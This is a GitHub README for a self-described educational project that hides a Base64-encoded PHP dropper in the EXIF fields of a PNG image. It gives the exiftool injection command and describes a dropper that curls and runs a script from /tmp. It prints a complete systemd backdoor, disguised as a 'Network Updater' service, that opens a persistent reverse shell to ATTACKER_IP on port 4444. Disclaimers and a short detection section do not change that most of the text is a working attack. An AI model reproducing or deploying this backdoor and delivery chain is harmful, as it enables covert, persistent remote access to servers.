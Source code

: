 ## Overview
This project demonstrates how attackers can embed a Base64-encoded malicious payload inside the EXIF metadata of a valid `.png` image. Once uploaded to a vulnerable server, the image can trigger remote command execution or download further malware.

This educational repository simulates:
- A valid `stealth_shell.png` with hidden malware in its EXIF fields.
- A PHP dropper payload (`base64_php_payload.txt`) that retrieves and executes a persistent backdoor.
- A malicious `shell.sh` that sets up a systemd-based reverse shell.

Author: [BackdoorAli](https://github.com/BackdoorAli)

> For educational purposes only. Do not deploy in production or unethical environments.

---

## Files Included

| File                    | Description |
|-------------------------|-------------|
| `stealth_shell.png`     | Image containing the Base64-encoded PHP payload injected into EXIF fields |
| `base64_php_payload.txt`| The actual Base64-encoded dropper PHP payload |
| `shell.sh`              | Systemd-based reverse shell that gets downloaded and executed |

---

## How the Attack Works

1. Image Creation
   - A valid `.png` image is prepared (e.g., a portrait of myself for this specific project - refer to my GitHub's pfp).

2. Payload Preparation
   - A PHP payload is written that:
     - Uses `curl` to download `shell.sh`.
     - Saves it to `/tmp/.m`.
     - Makes it executable and runs it in the background.

3. EXIF Injection
   - The Base64-encoded PHP is injected into `Comment`, `UserComment`, and `Software` EXIF fields using `exiftool`:
     ```bash
     exiftool \
       -Comment="$(cat base64_php_payload.txt)" \
       -UserComment="$(cat base64_php_payload.txt)" \
       -Software="$(cat base64_php_payload.txt)" \
       stealth_shell.png
     ```

4. Execution (Hypothetical)
   - If a vulnerable backend server extracts the EXIF metadata and passes it to something like:
     ```php
     eval(base64_decode($image_exif_data['Comment']));
     ```
   - Then the PHP dropper is executed, downloads the backdoor, and grants persistent shell access.

---

## Backdoor (`shell.sh`)

This script creates a persistent systemd service that launches a reverse shell to an attacker's machine.

```bash
#!/bin/bash
SERVICE_NAME="system-netupd"
SHELL_CMD="/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"

cat <<EOF > /etc/systemd/system/$SERVICE_NAME.service
[Unit]
Description=Network Updater (Critical)
After=network.target

[Service]
ExecStart=$SHELL_CMD
Restart=always
Type=simple

[Install]
WantedBy=multi-user.target
EOF

systemctl daemon-reexec
systemctl daemon-reload
systemctl enable $SERVICE_NAME
systemctl start $SERVICE_NAME
```

Replace `ATTACKER_IP` with your actual listener IP/port. >>> AGAIN, hypothetically! <<<

---

## Detection & Extraction
To view the injected payload:
```bash
exiftool stealth_shell.png | grep -i comment
```

To decode:
```bash
echo "<base64_output>" | base64 -d
```

---

## Defensive measures
See `defense.md` for detailed strategies on detecting and preventing EXIF-based malware delivery.

---

## Disclaimer
This project is for educational and research purposes only. Unauthorised deployment, testing, or use of this payload outside of a legal lab or your own system is strictly prohibited and of YOUR OWN RESPONSIBILITY.
